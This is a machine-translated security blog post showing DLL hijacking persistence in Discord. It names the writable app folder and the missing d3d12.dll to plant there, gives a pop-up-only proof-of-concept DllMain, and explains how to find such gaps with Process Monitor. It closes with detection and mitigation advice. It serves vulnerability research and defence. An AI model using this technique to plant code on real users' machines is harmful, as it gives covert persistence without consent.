






# 使用 Discord 的 DLL 劫持持久性

> 原文：<https://infosecwriteups.com/dll-hijacking-persistence-using-discord-80691a63c559?source=collection_archive---------1----------------------->

## 古老的黑客技术在今天仍然有效

在找到几种不同的持久化方法之后。我想验证一个旧的 DLL 劫持利用持久性。大约 9 个月前，我在 HackerOne 上披露了 Discord 的一个 DLL 劫持漏洞。但遗憾的是，它并没有被认为是一个弱点。因为它需要物理接触。但是一些 bug bounty 除外，DLL 劫持有足够的可能性。

# 剥削

简而言之，有一个 DLL 劫持漏洞仍然不和谐。通过在以下目录中放置恶意 DLL 来获得用户级持久性:

**% APPDATA %/local/Discord/app-1 . 0 . 9004**

这个 DLL 的名字应该是:【d3d12.dll 

它不需要 DLL 挖空或其他花哨的东西。所以，它只会执行你的代码。



# 创建 DLL

使用的代码非常简单。只需使用基本动态链接库(DLL)创建新的 visual studio 项目



并将主函数更改为下面的代码。所以每当 DLL 发生什么事情时，就会触发一个弹出消息。

```
// dllmain.cpp : Defines the entry point for the DLL application.
#include "pch.h"

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        MessageBox(NULL,
            TEXT("DLL Hijacking verified Process Attach"),
            TEXT("DLL Hijack BVS"),
            MB_ICONERROR | MB_OK);

    case DLL_THREAD_ATTACH:
        MessageBox(NULL,
            TEXT("DLL Hijacking verified Thread Attach"),
            TEXT("DLL Hijack BVS"),
            MB_ICONERROR | MB_OK);
    case DLL_THREAD_DETACH:
        MessageBox(NULL,
            TEXT("DLL Hijacking verified Thread Detach"),
            TEXT("DLL Hijack BVS"),
            MB_ICONERROR | MB_OK);
    case DLL_PROCESS_DETACH:
        MessageBox(NULL,
            TEXT("DLL Hijacking verified Proces Detach"),
            TEXT("DLL Hijack BVS"),
            MB_ICONERROR | MB_OK);
        break;
    }
    return TRUE;
}
```

现在，您可以基于所需的架构创建一个发布版本，并随时随地使用它！为所有未来的“低挂水果”DLL 劫持漏洞检查。

# 将它付诸行动

将您精心制作的 DLL 放入文件夹时。下一次受害者开始不和谐，DLL 将被加载。在这种情况下，DLL 将生成一个弹出窗口以便于验证。(有时可能需要一点时间)



正如您在下面看到的，创建了一个额外的不协调进程，它执行 DLL 劫持弹出窗口



交叉引用任务监视器和 Process Explorer 中的 PID，我们可以找到执行的相关命令。

```
%appdata%\Local\Discord\app-1.0.9007\Discord.exe --type=gpu-process --field-trial-handle=1636,17570466365889041215,795977594926311709,131072 --disable-features=CookiesWithoutSameSiteMustBeSecure,HardwareMediaKeyHandling,MediaSessionService,SameSiteByDefaultCookies,SpareRendererForSitePerProcess,WinRetrieveSuggestionsOnlyOnDemand --disable-gpu-sandbox --use-gl=disabled --gpu-vendor-id=4318 --gpu-device-id=5058 --gpu-sub-system-id=695482434 --gpu-revision=161 --gpu-driver-version=31.0.15.2647 --gpu-preferences=SAAAAAAAAADoAAAwAAAAAAAAAAAAAAAAAABgAAAQAAAoAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAB4AAAAAAAAAHgAAAAAAAAAKAAAAAQAAAAgAAAAAAAAACgAAAAAAAAAMAAAAAAAAAA4AAAAAAAAABAAAAAAAAAAAAAAAAUAAAAQAAAAAAAAAAAAAAAGAAAAEAAAAAAAAAABAAAABQAAABAAAAAAAAAAAQAAAAYAAAAIAAAAAAAAAAgAAAAAAAAA --mojo-platform-channel-handle=3692 /prefetch:2
```

然而，我不能通过在终端中重新运行这个 Discord 命令来重复这个漏洞。

# 自己寻找 DLL 劫持漏洞

要自己找到 DLL 劫持漏洞，你可以使用**进程监视器**。Process Monitor 是一个用于 Windows 的高级监控工具，它显示实时文件系统和注册表更改。它带有 S*y internal 包*。它包含了一个用于各种 windows 相关任务的工具包。

请参见下面的链接，通过 Microsoft store 单独下载 Process Monitor 或下载完整的套件(我推荐 Microsoft store，因为它会自动更新。)

 [## live.sysinternals.com-/

### 2021 年 8 月 20 日星期五晚上 10:19 670 about _ this _ site . txt 2022 年 5 月 1 1 日星期三下午 5:30 1468320 access chk . exe…

live.sysinternals.com](https://live.sysinternals.com/) [](https://apps.microsoft.com/store/detail/sysinternals-suite/9P7KNL5RWT25?hl=nl-nl&gl=nl) [## 从微软商店获取 Sysinternals 套件

### Sysinternals 套件是一个 Sysinternals 工具包，包括进程浏览器，进程监视器，Sysmon…

apps.microsoft.com](https://apps.microsoft.com/store/detail/sysinternals-suite/9P7KNL5RWT25?hl=nl-nl&gl=nl) 

当启动 Proces Monitor 时，您会被记录的数量淹没，因此最好选择您的目标并添加一些过滤器。为了找到 DLL 劫持漏洞，可以使用以下过滤器。



找到值名为“未找到”的结果非常重要。指示文件丢失，并且路径以. dll 结尾。dll 文件。您可以进一步指定过滤器，例如仅列出特定的应用程序。

如果你打开 Discord 你会看到文件中的问题，d3d12.dll 不见了。这就是为什么我们用它来劫持 DLL。



# **用于检测/缓解:**

1.  将文件更改限制在**% APPDATA %/local/Discord/app-1 . 0 . 9004**目录中，或者在那里放置您自己的 DLL 并验证哈希更改。
2.  监视这个特定的 DLL 名称，并检查它是否被加载到 discord 中。
3.  对于您的应用程序，您可以利用散列，并在加载文件之前验证散列没有改变。
4.  还建议不要从用户可写的位置加载文件。尤其是像 SYSTEM 这样需要更高权限的时候。

# **结论**

有趣的是，有人可以很容易地通过利用 DLL 劫持获得持久性。有许多应用程序都存在这种漏洞，很难验证所有的应用程序。如果你在进程监视器中监视它们，你会震惊地发现有多少 DLL 被错误地加载。
如果你想讨论任何与信息安全相关的话题，我在 LinkedIn 上:[https://www.linkedin.com/in/bobvanderstaak/](https://www.linkedin.com/in/bobvanderstaak/)

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！